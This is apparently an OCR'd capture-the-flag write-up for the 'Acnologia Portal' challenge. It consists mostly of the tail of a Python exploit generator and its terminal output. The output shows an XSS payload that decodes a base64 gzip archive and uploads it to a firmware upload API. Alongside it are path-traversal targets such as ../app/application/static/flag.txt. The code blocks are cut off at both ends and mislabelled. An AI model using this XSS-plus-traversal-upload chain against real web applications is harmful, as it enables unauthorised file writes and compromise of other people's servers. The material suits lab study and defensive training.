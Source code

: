 ```python
    const byteCharacters = atob(b64Data);
    const byteNumbers = new Array(byteCharacters.length);
    for (let i = 0; i < byteCharacters.length; i++) {
        byteNumbers[i] = byteCharacters.charCodeAt(i);
    }
    const byteArray = new Uint8Array(byteNumbers);
    var blob = new Blob([byteArray], { type: "text/html"});
    
    /*
    var URL = "http://localhost:8000/" + FILENAME;
    let blob = await fetch(URL).then(r => r.blob());
    */
    
    /// Uploading ////////////////////////////////////////////
    var formData = new FormData();
    formData.append("file", blob, FILENAME);
    var request = new XMLHttpRequest();
    request.open("POST", ENDPOINT);
    request.send(formData);
    
}
sendFile()
</script>
"""

print("### Payload #########################################")
print(output)
```


```html
[hacker@hackerbook Acnologia Portal]$ python3 exploit_gen.py 
../app/application/static/upload_proof.txt
../app/application/static/flag.txt

### Payload #########################################

<h1>Pwn Attempt</h1>
<script>
var b64Data = "H4sIAAAAAAAAA+3TwYrCMBAG4Jz3Kea+0E7S1Lq+g7Cw3iXUqMXSlDRl17c3dvEkFVFRlv0/CANDIBOGP0lS07bHU1elCZVr0i7EWqZ9WzuzWrbeuXUSfoK4GUcTrY9VFjn/1kwO/UGhhdRKx67OdS5YsZpkgvj2J6/Xx+96IrE15c76S/es754x0HMttlVHw47p23S0sY31JtgVuYa++oZkTnOzp7gRRfwxY54pSZ9zeufp26tnh/slo/lf12ZzX+5PhogXxXj+mc/yn7Eg9cAZRv3z/AMAAAAAAAAAAAAAAAAAAADA33YARdWPsAAoAAA=";


async function sendFile()
{
    var FILENAME = "test.tar.gz"
    
    var ENDPOINT = "http://localhost:1337/api/firmware/upload";
    
    /// Upload file from b64 //////////////////////////
    const byteCharacters = atob(b64Data);
    const byteNumbers = new Array(byteCharacters.length);
    for (let i = 0; i < byteCharacters.length; i++) {
        byteNumbers[i] = byteCharacters.charCodeAt(i);
    }
    const byteArray = new Uint8Array(byteNumbers);
    var blob = new Blob([byteArray], { type: "text/html"});
    
    /*
    var URL = "http://localhost:8000/" + FILENAME;
    let blob = await fetch(URL).then(r => r.blob());
    */
```